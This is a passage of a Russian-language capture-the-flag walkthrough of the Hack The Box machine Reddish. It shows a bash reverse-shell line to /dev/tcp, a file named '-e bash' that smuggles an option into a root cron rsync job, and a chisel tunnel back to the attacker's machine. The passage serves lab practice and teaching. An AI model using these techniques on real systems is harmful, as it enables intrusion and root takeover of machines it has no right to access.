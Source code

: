 ```bash
bash -c 'bash -i >& /dev/tcp/172.19.0.4/1337 0>&1'
```

После этого создадим еще один файл там же с оригинальным именем `-e bash pwn-rsync.rdb`. Листинг директории сетевой шары будет выглядеть таким образом в момент перед получением шелла.

```
www-data@www:/var/www/html/f187a0ec71ce99642e4f0afbd441a68b$ ls
-e bash pwn-rsync.rdb
pwn-rsync.rdb
```

Теперь осталось открыть новую вкладку терминала и дождаться запуска задания `cron`.

![www-root-shell.png](/assets/images/htb/machines/reddish/www-root-shell.png)
{:.center-image}

И вот, у нас есть root-шелл!

**Больше туннелей!**

Как ты понимаешь, отклик реверс-шелла я отправил в контейнер `nodered`, а ловил его на Kali, поэтому прежде всего этого действа, я пробросил еще один локальный туннель на 1337-м порту с `nodered` на свою машину.

```
root@nodered:/tmp# ./chisel client 10.10.14.19:8000 1337:127.0.0.1:1337 &
```

![network-map-5.png](/assets/images/htb/machines/reddish/network-map-5.png)
{:.center-image}

Сетевая карта. Часть 5: Второй туннель до Kali с nodered
{:.quote}

Теперь можно честно забрать хеш юзера.

![www-user-flag.png](/assets/images/htb/machines/reddish/www-user-flag.png)
{:.center-image}

Но это всего лишь пользовательский флаг, а мы по-прежнему находимся внутри docker. Что же теперь?

# Докер. Контейнер III: "backup"

Устройство скрипта для создания резервных копий должно навести тебя на такую мысль: каким образом проходит аутентификация на сервере `backup`? И ответ такой: да, в общем-то, никаким. Доступ к файловой системе этого контейнера может получить кто-угодно, кто сможет дотянуться по сети до `www`.

Мы уже видели вывод `ip addr` для `www` и поняли, что у этого контейнера есть доступ в подсеть `17.20.0.0/24`, однако конкретный адрес сервера `backup` нам все еще неизвестен. Можно сделать предположение о том, что его IP-шник `17.20.0.2` по аналогии с раскладом остальных узлов сети.

Чтобы удостовериться в этом, найдем подтвержение нашему предположению. В файл `/etc/hosts` отсутсвует информация о принадлежности сервера `backup`, однако узнать его адрес можно еще одним способом: отправим всего один ICMP-запрос с `www` до `backup`.
